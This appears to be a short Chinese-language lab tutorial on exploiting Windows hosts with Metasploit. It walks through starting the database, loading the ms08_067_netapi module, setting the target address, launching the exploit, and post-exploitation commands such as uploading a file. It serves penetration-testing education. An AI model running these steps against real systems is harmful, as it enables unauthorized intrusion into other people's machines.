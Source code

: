 
#
```
完成此實驗吼,你可以學到下列技術:

(1)	如何得知區域網路上是否有機器是live的?
(2)	如何得知肉雞的作業系統版本.
(3)	如何檢測肉雞具備XXX的漏洞
     WINDOWS系統常見的漏洞: ms08-067 | ms17-010
(4)	如何打洞?   (pwn,exploitation)
(5)	入侵後能做什麼  (post-exploitation) 
```

#

```
預先處理:第一次執行msfconsole時先執行下列步驟
啟動metasploit所需的資料庫

service postgresql start
msfdb init
```
```
啟動攻擊神器====>輸入msfconsole
```
```
search ms08_067
```

```
使用ms08_067_netapi攻擊模組

use exploit/windows/smb/ms08_067_netapi
```


```
顯示需要設定參數的選項=====  show options
```


```
設定各種參數====
set  RHOST   < 弱機的IP>
```


```
下達發動攻擊的指令====exploit
```

### Post-exploitation

```
pwd
ls

mkdir XXX

upload /root/Desktop/carter.jpg
```
